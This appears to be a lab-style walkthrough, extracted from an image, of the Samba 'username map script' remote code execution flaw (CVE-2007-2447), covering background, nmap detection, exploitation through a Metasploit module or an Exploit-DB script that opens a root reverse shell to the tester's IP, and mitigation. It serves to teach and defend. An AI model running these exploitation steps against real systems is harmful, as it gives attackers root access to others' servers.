 Full Walkthrough: Samba username map script RCE (CVE-2007-2447)
Theory & Background
Samba versions 3.0.20 through 3.0.25rc3 contained a critical vulnerability in the username map script configuration option. If this option was enabled in smb.conf, an attacker could inject shell metacharacters (/&;%|) into a username during authentication. This would cause the specified script to execute the attacker's commands with the privileges of the Samba server (often root).

Step-by-Step Walkthrough
1. Identification
bash
nmap -p139,445 -sV --script smb-os-discovery,smb-vuln-ms07-029 <target_ip>
# Also check for the specific script
nmap -p445 --script smb-vuln-cve-2007-2447 <target_ip>
Expected Result: Nmap will identify the Samba version and the specific script may confirm the vulnerability.

2. Exploitation
bash
# 1. Use a dedicated exploit (e.g., from Metasploit)
# searchsploit samba 3.0.20
# use exploit/multi/samba/usermap_script

# 2. Manual exploitation with a payload
# The vulnerability is in the Samba login process.
telnet <target_ip> 445
# Trying <target_ip>...
# ... (complex binary protocol)

# It's far easier to use an existing Python exploit script.
# Example command from an exploit script:
python /usr/share/exploitdb/exploits/unix/remote/16320.py <target_ip> <your_ip> 4444
What to do: The exploit script will send a malicious login request. If successful, you will receive a reverse shell connection on your listener with root privileges.

3. Mitigation
Patching: Immediately upgrade Samba to a version newer than 3.0.25.

Configuration: If upgrading is not possible, remove the username map script = /etc/samba/usermap.sh (or similar) line from the [global] section of smb.conf and restart the smbd service.


